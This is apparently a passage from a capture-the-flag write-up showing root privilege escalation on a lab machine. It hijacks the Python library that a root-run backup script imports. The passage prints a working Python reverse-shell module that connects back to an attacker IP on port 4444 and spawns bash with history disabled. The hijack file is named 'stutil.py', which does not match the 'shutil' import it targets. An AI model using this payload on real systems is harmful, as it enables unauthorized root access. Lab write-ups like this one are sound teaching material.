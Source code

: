 Okay, it looks like waldo can execute a bash script as root. Taking a look at the script, option number 6 calls the `backup.py` python script to perform a backup of the web data. Knowing that this bash script can be run as root by waldo, we can infer that this python script is also called as root as well. Let's give this python script a look.

```bash
$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

The script imports the `make_archive()` function from the `shutil` library and runs the method. Because the script is executed as the root user, this function is also ran as root. If we can make this `backup.py` script import a function that we've created, we can potential execute our code as root.

Well, that's just what we are going to do with a technique called Python library hijacking. [Here](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) is a great article on it. Essentially, we are going to alter the path that is used upon execution and point it the directory where we have our own malicious library.

Let's create our own `stutil.py` in the `/tmp` directory.

```python
import os
import pty
import socket

lhost = "10.10.15.83"
lport = 4444

def make_archive(a, b, c):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((lhost, lport))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
```

This library only contains the `make_archive` function and when the function is called, it'll open a reverse shell to our machine. Let's save this, and go back to our box and start an `netcat` listener.
